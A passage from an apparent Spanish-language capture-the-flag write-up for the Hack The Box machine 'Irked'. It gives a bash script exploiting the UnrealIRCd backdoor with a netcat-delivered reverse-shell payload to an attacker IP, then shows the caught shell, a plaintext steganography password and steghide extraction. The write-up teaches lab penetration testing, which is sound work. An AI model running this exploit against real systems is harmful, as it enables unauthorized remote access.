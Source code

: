 ```bash
trap ctrl_c INT

# ./exploit.sh

function helpPannel(){
        echo -e "\n\n[!] Uso: $0 Ip Port\n"
        exit 1
}

# Variables IP & PORT
ip=$1
port=$2

# Procedemos a ganar acceso al sistema
echo -e "\n[*] Ganando acceso al sistema 10.10.10.117 atraves del Servicio UnrealIRCd por el puerto 6697 desde la $ip estando a la escucha por el $port\n"
# Abrimos el servicio de UnrealIRCd con netcat para enviar nuestro comando
echo "AB; cd /tmp; bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'" | nc 10.10.10.117 6697
sleep 2
exit 0
```
Procedemos a ejecutarlo para con una session de netcat a la escucha por el puerto que queramos
```bash
# ./AutoPwn_UnrealIRCd.sh 10.10.16.241 443                                                                                                         1 ⚙

[*] Ganando acceso al sistema 10.10.10.117 atraves del Servicio UnrealIRCd por el puerto 6697 desde la 10.10.16.241 estando a la escucha por el 443
:irked.htb NOTICE AUTH :*** Looking up your hostname...
```
Recibimos la conexion entrante
```bash
# nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.16.241] from (UNKNOWN) [10.10.10.117] 39968
bash: cannot set terminal process group (639): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:/tmp$ 
```
Realizamos un tratamiento de la tty
Enumeramos el sistema en busca de la flag user.txt
```bash
ircd@irked:/home/djmardov/Documents$ ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
```
La encontramos y vemos que no podemos leer ya que pertenece al usuario `djmardov`
Tambien encontramos el archivo `backup`, asique vamos a hecharle un ojo.
```bash
ircd@irked:/home/djmardov/Documents$ cat .backup 
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
Vemos que tenemos una passwd para steg, probamos a usarlo para la foto de portada de la web.
```bash
# steghide extract -sf irked.jpg                                                                                                                   5 ⚙
Anotar salvoconducto: 
anot� los datos extra�dos e/"pass.txt".
```
Verificamos el archivo pass.txt que se acaba de extraer 
```bash
```